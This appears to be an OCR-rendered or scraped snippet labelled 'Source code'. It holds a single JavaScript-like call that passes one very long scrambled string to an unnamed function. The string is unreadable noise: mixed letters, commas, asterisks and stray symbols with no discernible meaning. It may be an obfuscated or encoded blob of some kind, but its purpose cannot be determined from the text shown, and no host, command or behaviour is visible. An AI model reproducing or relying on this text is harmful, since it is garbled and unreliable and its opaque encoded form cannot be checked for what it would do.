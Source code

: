 r=f(e,"V,wbRdey*AtuCBlKRKMCAw,*AKwyttb1ueylwbutCKdCBteqleuKdKlyeBK*ywKAyuABwCt*wluRtewKtybDCdRCBrRBB*dyye*ddRleel,KK,u,lewBCwb*ulRR,eCeE**ljwtAdCBueCKAweCl*,Kt*D,BwuutbeuCRw,RCR<eAbXqtCdllydBlwXdAd,xAe,CllAll,e*Bt*eb*u,beuCRyedKwy_KeyCyeKyydKu*eqdyuKdbbCwblCRRt,CCC{lAtk*uReeBKyAlt_CAw,*AlwR,,FRdeyCCbdbCldRBttedeBK,wuteBKbyl}byu0lwwt*wluRytuBBebBAwBAewlRetK4BBdBlKeB*KwRAtwktey*w*eAKeyCltAbbyBwRy**bwBAeylKyR*BwuA*,ltRyy,KtdwtAdwBu,bbtBdRB*ddlMdKK,RCKbyRKt*,,^eAwwt*wCRICeRCBwd*BleRdbu0Ky*Rxw**/llR*A,b*KwOAuwytCCdddB&deBCt*dtlbdBllwvB4*,Kuyu-bwRttbkuebCCwR*ulAbBueuleeCKwCRyRudbKuxd*KBA9PCAyw*buCCReCCdw,KCBd-ClddlR,CCby*Kl*FKKw,tKwCuwb*8,uewKu,RtC,wlB,d!ydXb*Ove*CdljldwBRRt#RAlb,tACAddBRdtlSuCd,BdeClByeuB,,Al,Ctww*w_AAwdtAwdCGb**tBKyRltyoKeC*y*utRwuRdu1l*B,ltuB**:bbtCbwuKBBell*elKRCBedKCy,cRb*lUAe,Aty,utlCbdeCldRBttlRylSedlBdBl*yCK,yB/tddBudKudblCYReCCtdR,B*RAeuKuyeKC*wRtKB*ull*A}uAMEwtywCuBCuddBedClwtudyB*dKKw{yAb,wA*,l(u*KwRABw,uWblRKlbdtl-eeb*l*wtuwwRB,*d&R*KFlA,,CAu,KuwCydRBwd*BltBd*lbetBByYluybAdwttYwetCylwly(Kd*bK+AAbBB*RB*lb*BKeBKdytAwKAbKde_tdbuKyR) RABydRBte+byl,duKseBK*ybQtyuABwut*wluRyKb*udb*CyRCCydbB*K,yCKC*w!*B,dtaC*,,bA,ubbBulRRCtACRlBRdeA*lK*RKt*OGeB***CAdeBtRtKbAybwtyl*AwbACyRKBRlByBK*ylnRB*ydXBek,RAy,lA*wAuybRRBBud*BleRbelewytBwwCtyBKd*Ct,bwtCbwu*ARwdutbKC*,KB,deBweABByR*el,wuR*,lRKzeAwydbBCeR*CldRw*C,dbB,Kb*,Kl*R+tB,*R,m*uC*yuwbAlbbRyB*dwB*dlwyCudllReuK?w*Bd*emb*lDtwBCwb*ulRR,eCeLyAd,t**b,BdyMldweBXyyod*B,wwuuAbeuCRw,CubRCClwbBdd*l,etyldBrtBbAdCttdkBlBbdCwR#CeRC,bCeR,CCdAlwduljXb*lGlAR,tlbAd,*t,wty,CddABZdeBCtldlt,wtAtRyKuytTd*RryAw,,Adw*bBC*R*CldRwbBbdwCBe}BCKKA,=tAI,eBK*b,eACwbt*,KAAb,ulRRCbdeeuKAyeKC*wduKu*boAAR;lAd,yebuKRKCtdFBet*d*At,ltR,tBeydKy*yie,ltRwtupbeuCRwC**lBdedl5eelCuAdBKwRyKeyAKu*t,ey,,wbdC*RqCeRCwduBdwuydtB,eBltwwB*yBKB**,Rwyudbwu*bl,wtKRyttRuCARKBtdAyuvA*e7CAweR,Rddl,d4jttRbytKCKe,BteFletKeyBCetlAyB7b*t7R*ylu*Kw*buCtReCCdw,lCBdCuddAlRebC*eAKm,dtRw}tewCKbuwbbuewKt*RdB4RyBelK*RKt*_gel5ytKByd,eAb,yAlb2*ewBuRbAC*dbCulBy*K*ylZRBwydKy*=PyAttKR,utRnCeA*R**tKltdd*Bye*KdwwCtyBKe,uu*wetCbwibtyb4ueK^uyR*Cl-*Ble8BuyAluylkdR%l,*d,*AlwdttluRABedRBtembwlwwbA*R,KeeuKw,ytewwt*wlweAKbbutwBCyRtuKdwBlK)yeKC*wH**lbRKleWtyb,uwb*uluybtu,RBCtlbyBllyRKtCCyCCRRwC*RlCRy,wdtRwttybtel,yuud7BtRBBueeyKkl*t,QAee*,*e,Clye,utlwtudRed*BleRltyYKeuCdwC*PKts,tt5wellAbweAKbwtuK6t;d,CuRuBbKd*bz8*eLCBy*Roy*d,*AB,AeBbdRAB*dRBte+bABueylt,lClyKKAyAm,wbuwwluRbta,uuRDC,K*CddeBbdlBtKB**+**l,RBC*AYBA,lwteuKRKCtdHBetKRdB9dbl,dKCbydK**,5t,l/yybyB,duKeRu10BBde,lWeelCudeylCywlKybIt,BtBw*tlbRwyt,b*udR,utd;BbdBtbwlyB=C**UlARee,edABldwpCtewBtKbedyldewl*elRyBueeludCKlyAf,*AttJAt,,Al,Ay*bBe,te,K;eCKwy*RbK*euKlyy%lAyKuAAwBbuC*ReCCdwbwCBd,BddAlty_KCEAAA,RAtw(lC*BwRtAbbtdb*udRtBHRbeAKdyRKt*+eCKl*,Jdy^lueCu,bCuCRwC*tLbACRRKCKdtyb4byl4R*tdCLCRKB*d*ClyewCudbRuuBbeyBleRltuCeCuJbwt*d,KdA8^dReK#AywdtBbwRtBrdeBC*wyCZRtCbtv,A sCAw,*ld*A,l*b,utlb*u,b,uABt2Ryey*BwyyldKBC*A,w*ACwwt**ywbtKbw*twBue,AtAwdtCbABBRCK,y*KlydAt,BbbRKKwuCAuuB**d,BBdClwe*bel*elKWRBK,*eA*RBRuemATR6,wud*eRKBCdtl/eeb6lRe,lCeKKbylKB,CRuyRlRKRuRbKudguBbe*BleRltCeedllyelB*eBt*CO,*B,AAyweuwwAtlB,e,BCewl*tKeRlteCluwCBC*B7y*y=Kb,CwbCCwR*;KC,bKBwRKCKdbleeRKkeuKy,eC;,wwKCBubyAwu*eCBewB*dllRtuedlteutwyuJwyd-lAbCeAbwRt,wCt*Cue,BedClwuReRtebbt/RyKtyAotAyCReC,KA*,ltybtRKl?dtl0eeb*l*wCuwbRttdwmu*K,e*BwLbRutR^CeRCBw,*bwtRluyRKeyC:wBdyyUyyBt,wKtCbwu**tbtyu}Rye,lB,RAlnKRltteueCCeKeR,hlwtubuuebCCwARRR*d<l*aw*CBeGBCeyK*>uAl,eACwwKCtJ,dtBw*AewBC_bCuK,eABwetyKBC^W**l,R3wAR,tACwdywlBybbCu,RB*tRAB,ewBCeKlwyuKKyyvt*,,bA*wRAuwtueKeu,RbCyYKtydtludwlbyelw*tCdeRKAy,Kwebwyt,wKut:,ttwbtdwluBbutteKlCTKAB,ttUweK*t*lAyRlR*CbKuyRlebKwelKRytdwluyK2eyA,bAe.uAlwtbCCKutbBbRC,,kdbttKb*,Kl*RJtBC*CCBdyC*yzwbAubwRyBAdwB*dlwyCudllReuK9w*l,yAoe*C2uAlubRuulRRCttwb*BRwbBeRKlvybKReKlK*dlu*b,etE,AAAw,RbBwRlBRdtwABRdClyeCCXeAK,y, R,BtCw*tlbR{*tdbBAKbyuudwCBdABlKy*wOw**_lBl*KEA*A,,dBuAdbCRRtB:uyR*Cld,BdddlleKK**bKu*Cpe*d,,td,KuQwbutllddl*e_leeCb*l,eCl*dzKA**oKAeluAe,BtewRRyB*dwB*dlwABeddlbe,KLyCB,*b>e*K,*wButb*ulRR,luAReBEd,B*wytCKu*uLe*C,wlRARBeewBhyCwltywCuwbAdulyeelCywRyl8y)Kb*eKKyKtbwltlbRut*lwuCbweuAREedKey!KeyCRlKlR,CebtleA*,,AewttywyRtB+deBCewl*elKRytJ,Ad#CAw,*ltAtBKeIBe*bbyueR,C&RbClRBB,eRyA^,*R<tAJ*Rh,AAtAbyuRbtC4*twBC*R,CwRdABewBtKB*u{**l,RleAeB*dlBw*CweuAb,d,KBdClwe*RwBCebKbweKwyu.R*bCRt,,,tABCuwbtuBR*uKRbBtd,Be,*KdeBKly*ueeA,,Ay,C*y,Ktbletw9dd*,**df*,HKAutyRRe/KAC,ttkweK*t*lCdl^euAb,C*BBeul*elKRCeyeuybluweCDeAA,,bmuebCCwt*B,tty,tglyydKwy*KlBuyAHw*,DKAwqAA,,AbuCAReCCdwwRBR,eAl,=CteRKyeK*K,KAtwWtey*w*eBllyRltAwRuuKRBl,lK*bKt*a8eB***CCd/CRy,wdtRwKtlb,uCbuuKdweyKwywK*ylRy}b*RKl*,,twAuybRutR4,wCwkb*BKlu*dwlddByC>w**!luRCByeCllCbbC,blCRRt,,Cud#B,buBlddK,el*el,wuR*,lRKEeAwKdbBCyR*CldRRtC,RKBledyA;R*R0tA#dC_u*l,CAywCbuCdReCCdwwwBbRBCBddyeRBClle*lRydB*KlewBuub*ulRR,eCe2y*lNwttdBBdeC*,qt*C,wA*el&dACwRbyCtRwC*RlwEBh,wAlQCu*etlyeAll*wKKyKZtwAuubRutR}wdut,dt,bBB^btlybKCAeylyybAdwbt2wetCylwlymK*et,eC*R,Cel*B,bBRyBK*AwlytdyAKwCttbpueA2wyuRbbCRRABwdteBKty*Kl*RRuKl*tYdRwlAyRKKbuCCReCCdw,uCBRyBAdlluyotwddKy*.+dwNtewCuwb*ul*Rb*AvByewlwe*lluyeblReuKlbBAAwwtRwtuE*b,BtubeRKl,dtl)eebClyedlleKKbylueee,yA,,,AAuud+CeRCBwtBd,CAdCuAeRlCyyKCe,KA*C,e*KnKAyuARyCRRtB0twR,CKdyBCddBledu,MBAu,*AlwRKetel*eKlwACbeCAR,e,R*eCKwy*,ly,ttRB2bRCtAC*RlBRdtlWeelCywwuwu*eCuuB,*ywRKttKyl,bCARybCl,bnde8ueAyKwKetRtK)tebR,AClwBbwlbwBwblKbytKCdeKeewpBuuRACeR,BtdulR,*uKyAKlyKue*b,RA,,CA*BtAewuulRdC,RBBw)tA>,eACwwt*wluRbtCv,bRClKtdllRuRuBBdeBCewbdCKeeBBydKAewKy*CKKAe,KtbuyRRCwR*CltFbKCBddBtdbBCeb*d,RAQ,eACel,le)lRdt,RtlbduybldKlCetK!yeR*K*butldyFC*,0*wCuwb*ulRRCtBNb,AClwBbBKABKtteCywtdwAAwetRwtuh*A,Bt*wBt*RbC*RdeelCywK*Bll**4Clde,Bttw*tlbR_eueKteC,dCtbKCeltyMKeyC0w**tl{wdtt,wBtCbwu*uRbhuAbluuR?CelAyBKRytIkBw*wCRR*uleu,KAlwAt*wuuebduARCe,lKeCKwy*RClA*,Bw*u,cAe,yACudduCJReCCutRCBwdRBBwttdwuKweAg,**KK*wkKAtl#AuwBu,KACwbyBb,,BldRBtwulwdyCdd*AAwBtRwtu&*wbwydKBel,dC*RyB*edAwbtlBeelC,&lubAtbt**d**bwKlCyd*Bwd*BltAdeBAdyltRCKyyb+y*lp,A*tC